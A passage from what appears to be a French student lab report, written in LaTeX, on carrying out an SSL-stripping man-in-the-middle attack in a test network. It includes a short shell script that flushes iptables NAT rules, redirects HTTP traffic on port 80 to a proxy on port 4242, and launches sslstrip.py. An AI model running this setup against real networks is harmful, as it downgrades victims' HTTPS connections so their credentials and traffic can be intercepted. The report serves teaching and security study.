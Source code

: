 Nous arrivons alors sur la page secure.php, en HTTPS : la machine immortal n'a pas pût voir nos échanges sur cette page sécurisée.

\begin{figure}[H]
  \caption{Code source de la page (avant l'attaque)}
\end{figure}

\subsubsection{Étape 2 : lancement de l'attaque}

Comme expliqué précédemment, pour lancer l'attaque, il faut exécuter le fichier  depuis immortal. Voici son contenu :

\begin{verbatim}
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
\end{verbatim}

La règle iptables permet de rediriger les flux TCP à destination du port 80 (HTTP) vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

\begin{figure}[H]
  \caption{Lancement de l'attaque}
\end{figure}

\paragraph{Explication du code du proxy \\}

Le code du proxy est dans le fichier .

